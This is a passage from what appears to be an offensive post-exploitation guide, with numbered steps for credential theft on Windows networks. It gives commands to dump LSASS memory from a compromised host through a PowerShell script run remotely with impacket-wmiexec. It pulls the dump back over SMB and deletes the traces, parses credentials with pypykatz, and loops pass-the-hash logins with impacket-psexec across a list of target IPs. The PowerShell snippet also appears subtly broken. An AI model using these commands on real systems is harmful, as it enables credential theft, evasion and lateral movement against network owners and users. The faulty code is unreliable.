 2. **Leverage a compromised Windows system to extract LSASS memory**:

```bash
# Create a PowerShell script to dump LSASS safely
cat > dump_lsass.ps1 << EOF
\$proc = Get-Process lsass
\$dumpfile = "C:\Windows\Temp\lsass.dmp"
\$handle = [PSObject].Assembly.GetType('Microsoft.Win32.SafeHandles.SafeProcessHandle')
\$constructor = [Runtime.InteropServices.HandleRef].GetConstructor([IntPtr], [Boolean])
\$safeProcessHandle = $handle::new($proc.Handle, $true)
\$method = [System.Diagnostics.Process].GetMethod('MiniDumpWriteDump', [Reflection.BindingFlags] 'Static, NonPublic')
\$method.Invoke(\$null, @($safeProcessHandle, \$proc.Id, [IO.File]::Create(\$dumpfile).SafeFileHandle, 2, 0, 0, 0))
EOF

# Transfer and execute the script on the compromised Windows host
smbclient //10.0.0.50/C$ -U compromised_user
smb> put dump_lsass.ps1 Windows\\Temp\\dump_lsass.ps1
smb> exit

# Execute the script remotely
impacket-wmiexec domain.local/compromised_user@10.0.0.50 "powershell -ep bypass -File C:\\Windows\\Temp\\dump_lsass.ps1"

# Retrieve the dump file
smbclient //10.0.0.50/C$ -U compromised_user
smb> get Windows\\Temp\\lsass.dmp /tmp/lsass.dmp
smb> del Windows\\Temp\\lsass.dmp
smb> del Windows\\Temp\\dump_lsass.ps1
smb> exit
```

3. **Extract credentials from the dump using Pypykatz**:

```bash
# Process the dump file
pypykatz lsa minidump /tmp/lsass.dmp > /tmp/credentials.txt

# Format and organize the extracted credentials
grep -A 2 "Username" /tmp/credentials.txt | grep -v "^--" > /tmp/users_and_hashes.txt
```

4. **Use extracted credentials for lateral movement**:

```bash
# Test extracted NTLM hashes across the network
for ip in $(cat target_ips.txt); do
  for user in $(cat /tmp/users_and_hashes.txt | grep Username | cut -d ":" -f2 | tr -d " "); do
    hash=$(grep -A 1 "Username : $user" /tmp/users_and_hashes.txt | grep "NT" | cut -d ":" -f2 | tr -d " ")
    echo "Testing $user:$hash on $ip"
    impacket-psexec -hashes :$hash domain.local/$user@$ip "whoami" 2>/dev/null
  done
done
```
